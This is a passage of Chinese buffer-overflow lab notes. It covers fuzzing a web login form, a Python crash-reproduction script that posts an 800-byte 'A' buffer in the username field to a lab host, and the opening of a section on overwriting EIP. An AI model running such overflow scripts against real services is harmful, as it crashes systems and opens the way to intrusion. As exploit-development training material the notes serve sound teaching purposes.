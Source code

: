 运行后，执行fuzzy脚本，直到溢出

![image-20200414100847170](assets/5.BOF.assets/image-20200414100847170.png)



### 复现崩溃

延续之前的fuzzying脚本，假设我们测试出崩溃的字节为800个size先构造一个可以方便的复现脚本

```python
#!/usr/bin/python
import socket 

try:
	print "\nSending evil buffer..." 
	size = 800
	inputBuffer = "A" * size
	content = "username=" + inputBuffer + "&password=A" 
	buffer = "POST /login HTTP/1.1\r\n"
	........
	........
	buffer += "\r\n"
	buffer += content 
#发送包 
	s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
	s.connect(("10.11.0.22", 80))
	s.send(buffer)
	s.close()
	print "\nDone!" 
except:
    print "\nCould not connect!"
    sys.exit()
```

实验验证崩溃无问题

### 掌控EIP

现在，缓冲区中多出的一些字符A已覆盖了EIP，如图所示。

![image-20200414103414450](assets/5.BOF.assets/image-20200414103414450.png)
